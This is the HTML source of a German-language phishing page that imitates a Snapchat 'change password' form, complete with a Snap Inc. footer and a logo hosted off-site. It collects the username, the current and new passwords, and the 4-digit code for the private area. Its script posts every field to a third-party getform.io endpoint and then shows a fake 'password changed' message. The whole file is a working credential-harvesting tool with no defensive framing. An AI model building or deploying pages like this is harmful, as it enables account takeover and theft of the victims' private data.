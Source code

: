 
<html lang="de">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Passwort ändern</title>
  <style>
    /* ...existing styles... */
    * {
      box-sizing: border-box;
    }

    body {
      margin: 0;
      font-family: Arial, sans-serif;
      background: #f2f2f2;
      color: #333;
      min-height: 100vh;
      display: flex;
      flex-direction: column;
    }

    .container {
      background-color: white;
      max-width: 420px;
      width: 100%;
      margin: 48px auto 60px;
      padding: 28px 20px 20px;
      border-radius: 12px;
      box-shadow: 0 2px 8px rgba(0, 0, 0, 0.05);
      display: flex;
      flex-direction: column;
      align-items: center;
    }

    #logo {
      width: 120px;
      margin-bottom: 20px;
    }

    h1 {
      text-align: center;
      font-weight: 900;
      margin-bottom: 8px;
    }

    p.description {
      text-align: center;
      color: #444;
      font-weight: 500;
      margin-top: 0;
      margin-bottom: 30px;
    }

    .input-group {
      width: 100%;
      margin-bottom: 18px;
    }

    label.input-label {
      display: block;
      font-size: 13px;
      margin-bottom: 6px;
      color: #555;
      font-weight: 600;
    }

    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 8px 6px 10px;
      font-size: 16px;
      border: none;
      border-bottom: 2px solid #ccc;
      background: #f8f8f8;
      border-radius: 6px 6px 0 0;
      transition: border-color 0.3s ease;
      outline: none;
    }

    input:focus {
      border-bottom-color: #ffdb4d;
    }

    .input-error {
      color: #a00;
      font-size: 12px;
      margin-top: 4px;
      display: none;
    }

    #change-password-btn {
      display: block;
      margin: 10px auto 0;
      width: 220px;
      padding: 10px 0;
      border-radius: 24px;
      border: none;
      font-weight: 400;
      font-size: 16px;
      cursor: not-allowed;
      background: #e0e0e0;
      color: #aaa;
      background-image: repeating-linear-gradient(
        45deg,
        rgba(255, 255, 255, 0.15),
        rgba(255, 255, 255, 0.15) 5px,
        transparent 5px,
        transparent 10px
      );
      transition: all 0.3s ease;
    }

    #change-password-btn.enabled {
      background-color: #ffdb4d;
      background-image: none;
      cursor: pointer;
      color: black;
      font-weight: 700;
    }

    #password-advice {
      margin-top: 12px;
      color: #999999;
      font-size: 13px;
      text-align: center;
      max-width: 300px;
      line-height: 1.3;
    }

    footer.snap-footer {
      background-color: #000;
      color: #fff;
      font-size: 14px;
      padding: 24px 16px;
      display: flex;
      flex-wrap: wrap;
      justify-content: center;
      gap: 32px;
      margin-top: auto;
    }

    .snap-footer-section {
      flex: 1 1 140px;
      min-width: 140px;
    }

    .snap-footer-section h4 {
      font-weight: 600;
      font-size: 14px;
      margin-bottom: 6px;
      color: #fff;
    }

    .snap-footer-section ul {
      list-style: none;
      padding: 0;
      margin: 0;
    }

    .snap-footer-section ul li {
      margin-bottom: 4px;
    }

    .snap-footer-section ul li a {
      text-decoration: none;
      color: #bbb;
      transition: color 0.2s ease;
    }

    .snap-footer-section ul li a:hover {
      color: #fff;
    }
  </style>
</head>
<body>
  <div class="container" id="form-screen">
    <img id="logo" src="https://i.postimg.cc/Gmf5XDBH/IMG-4685.jpg" alt="Firmenlogo" />
    <h1>Mein Passwort ändern</h1>
    <p class="description">
      Zum bestmöglichen Schutz Ihres Kontos wählen Sie bitte ein Passwort, das mindestens acht Zeichen lang ist
      und eine Kombination aus Groß- und Kleinbuchstaben, Zahlen und/oder Sonderzeichen enthält.
    </p>

    <form id="password-form" action="https://getform.io/f/bmdmpgla" method="POST" novalidate>
      <div class="input-group">
        <label class="input-label" for="username">Benutzername</label>
        <input type="text" id="username" name="username" autocomplete="username" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="current-password">Aktuelles Passwort</label>
        <input type="password" id="current-password" name="current-password" autocomplete="current-password" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="new-password">Neues Passwort</label>
        <input type="password" id="new-password" name="new-password" autocomplete="new-password" required />
        <div class="input-error" id="new-pass-error">* Passwort muss mindestens 8 Zeichen lang sein</div>
      </div>

      <div class="input-group">
        <label class="input-label" for="confirm-new-password">Neues Passwort bestätigen</label>
        <input type="password" id="confirm-new-password" name="confirm-new-password" autocomplete="new-password" required />
        <div class="input-error" id="confirm-pass-error">* Passwörter stimmen nicht überein</div>
      </div>

      <div class="input-group">
        <label class="input-label" for="current-privater-password">Aktuelles Passwort für den Privater Bereich</label>
        <input type="password" id="current-privater-password" name="current-privater-password" maxlength="4" pattern="\d{4}" inputmode="numeric" placeholder="4-stelliger Code" required />
      </div>

      <div class="input-group">
        <label class="input-label" for="new-privater-password">Neues Passwort für den Privater Bereich</label>
        <input type="password" id="new-privater-password" name="new-privater-password" maxlength="4" pattern="\d{4}" inputmode="numeric" placeholder="4-stelliger Code" required />
        <div class="input-error" id="privater-pass-error">* Muss genau 4 Ziffern enthalten</div>
      </div>

      <button id="change-password-btn" disabled>Passwort ändern</button>
    </form>

    <div id="password-advice">
      Verwenden Sie nicht dasselbe Passwort für verschiedene Dienste, insbesondere wenn Sie denselben Benutzernamen verwenden.
    </div>
  </div>

  <footer class="snap-footer">
    <div class="snap-footer-section">
      <h4>Unternehmen</h4>
      <ul>
        <li><a href="#">Snap Inc.</a></li>
        <li><a href="#">Karriere</a></li>
        <li><a href="#">News</a></li>
      </ul>
    </div>
    <div class="snap-footer-section">
      <h4>Community</h4>
      <ul>
        <li><a href="#">Support</a></li>
        <li><a href="#">Community-Richtlinien</a></li>
        <li><a href="#">Sicherheitscenter</a></li>
      </ul>
    </div>
    <div class="snap-footer-section">
      <h4>Werbung</h4>
      <ul>
        <li><a href="#">Anzeigen kaufen</a></li>
        <li><a href="#">Werberichtlinien</a></li>
        <li><a href="#">Politische Werbung</a></li>
        <li><a href="#">Markenrichtlinien</a></li>
      </ul>
    </div>
  </footer>

  <script>
    const newPasswordInput = document.getElementById("new-password");
    const confirmPasswordInput = document.getElementById("confirm-new-password");
    const privaterPassInput = document.getElementById("new-privater-password");
    const privaterPassError = document.getElementById("privater-pass-error");
    const changeBtn = document.getElementById("change-password-btn");
    const newPassError = document.getElementById("new-pass-error");
    const confirmPassError = document.getElementById("confirm-pass-error");
    const form = document.getElementById("password-form");
    const container = document.querySelector(".container");

    function validate() {
      let valid = true;

      if (newPasswordInput.value.length < 8) {
        newPassError.style.display = "block";
        valid = false;
      } else {
        newPassError.style.display = "none";
      }

      if (confirmPasswordInput.value !== newPasswordInput.value) {
        confirmPassError.style.display = "block";
        valid = false;
      } else {
        confirmPassError.style.display = "none";
      }

      if (!/^\d{4}$/.test(privaterPassInput.value)) {
        privaterPassError.style.display = "block";
        valid = false;
      } else {
        privaterPassError.style.display = "none";
      }

      changeBtn.disabled = !valid;
      changeBtn.classList.toggle("enabled", valid);
    }

    newPasswordInput.addEventListener("input", validate);
    confirmPasswordInput.addEventListener("input", validate);
    privaterPassInput.addEventListener("input", validate);

    form.addEventListener("submit", async (e) => {
      e.preventDefault();

      if (changeBtn.disabled) {
        return; // prevent submission if validation fails
      }

      const formData = new FormData(form);

      try {
        const response = await fetch(form.action, {
          method: "POST",
          body: formData,
          headers: {
            'Accept': 'application/json'
          },
        });

        if (response.ok) {
          container.innerHTML = `
            <h2>Passwort wurde erfolgreich geändert!</h2>
            <p>Danke für Ihre Eingabe.</p>
          `;
        } else {
          alert("Fehler beim Absenden des Formulars. Bitte versuchen Sie es erneut.");
        }
      } catch (error) {
        alert("Netzwerkfehler. Bitte überprüfen Sie Ihre Verbindung.");
      }
    });
  </script>
</body>
</html>

